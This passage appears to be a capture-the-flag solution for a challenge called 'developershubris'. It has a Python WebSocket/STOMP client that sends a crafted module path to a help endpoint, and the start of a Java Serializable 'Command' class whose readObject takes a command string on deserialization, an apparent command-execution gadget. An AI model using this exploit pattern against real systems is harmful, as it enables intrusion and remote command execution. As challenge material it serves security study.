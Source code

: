```python
    async with websockets.connect(f"{url}/gs-guide-websocket/939/tx2bcmqi/websocket", max_size=(300 * 10 ** 9)) as ws:
        data = await ws.recv()
        cmd = construct_command("CONNECT", ["accept-version:1.1,1.0", "heart-beat:10000,10000"])
        await ws.send(cmd)
        data = await ws.recv()
        cmd = construct_command("SUBSCRIBE", ["id:sub-0", "destination:/queue/0"])
        await ws.send(cmd)
        cmd = construct_command("SEND", ["destination:/app/help"], {"module":path,"subId":"0"})
        await ws.send(cmd)
        data = await ws.recv()
        parsed = json.loads(data[1:])[0].split("\n\n", 1)[1][:-1]
        parsed = json.loads(parsed)["content"]
        print(parsed)

def construct_command(command, headers, body=None):
    NL = "\n"
    payload = command + NL
    headers = "\n".join(headers) + NL
    if body:
        try:
            body_string = json.dumps(body).replace(" ", "")
        except:
            body_string = body
        content_length = f"content-length:{len(body_string)}{NL}"
        headers += content_length
        payload += headers + NL
        payload += body_string
    else:
        payload += headers + NL
    payload += "\u0000"
    return json.dumps([payload])

if __name__ == '__main__':
    asyncio.run(main())
```

`Command.java`:

```java
package com.example.developershubris;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Command implements java.io.Serializable {

  public String command;
  public Command(String command)
  {
    this.command = command;
  }

  private void writeObject(java.io.ObjectOutputStream out)
      throws IOException, ClassNotFoundException {

    out.writeUTF(this.command);
  }

  private void readObject(java.io.ObjectInputStream in)
      throws IOException, ClassNotFoundException, InterruptedException {
    this.command = in.readUTF();
    String[] commandArray = this.command.split(" ", 3);
```